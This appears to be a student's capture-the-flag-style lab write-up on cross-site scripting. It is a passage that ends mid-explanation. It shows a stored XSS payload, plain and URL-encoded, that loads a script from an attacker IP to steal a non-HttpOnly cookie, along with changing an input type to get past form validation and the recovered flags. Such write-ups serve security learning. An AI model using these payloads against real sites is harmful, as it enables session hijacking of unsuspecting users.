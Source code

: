 Throwing the cookie into a `URL-Decoder` presents the flag
`flag%3DOS%7Bc506a15c451370f390df8bee42cb6963%7D`
![[Pasted image 20240731182748.png]]
`OS{c506a15c451370f390df8bee42cb6963}`

###### 2
![[Pasted image 20240731185324.png]]
Entered `jorden` and the number `1` into the starting field, upon hitting submit was able to identify `id` as a potential exploitable field
![[Pasted image 20240731183100.png]]
Going to try both payloads
Before Encoding:
```js
<script src="http://192.168.45.223:80/xss2.js"></script>
```
After `URL-Encoding`
```js
%3Cscript%20src%3D%22http%3A%2F%2F192.168.45.223%3A80%2Fxss2.js%22%3E%3C%2Fscript%3E
```
After trying both the numerical field is unable to process the request in both `URL-Encoding` and `js`
![[Pasted image 20240731183259.png]]
back on the main `RSVP` page before any input has been submitted, inspected the page and found the `number` file that needs to be changed to text to allow processing
![[Pasted image 20240731183600.png]]
Right clicked `edit HTML` and changed it to `text`
![[Pasted image 20240731183714.png]]
After editing the HTML I was able to input the payload successfully
`<script src="http://192.168.45.223:80/xss2.js"></script>`
The payload was submitted where the green is for guests
![[Pasted image 20240731184641.png]]
this gave back the error that shows that it is working from the attacker host in the `python3` server
![[Pasted image 20240731184758.png]]
Once we saw that worked, we then tested the payload on the victim machine and got the same empty field in the `Guests`
![[Pasted image 20240731185010.png]]
Now, when we check the `python3 http.server 80` we see the `200` request as well as the flag - or the cookie from the Non HTTP only cookie
![[Pasted image 20240731185125.png]]
Decoding the flag
`OS{61eef285ddb9ee6ac77f8f21510fa83d}`
![[Pasted image 20240731185246.png]]

###### 3
![[Pasted image 20240801211646.png]]
We are unable to execute because the `innerHTML` method being implemented so we are forced to translate the original payload into a payload that bypasses the method

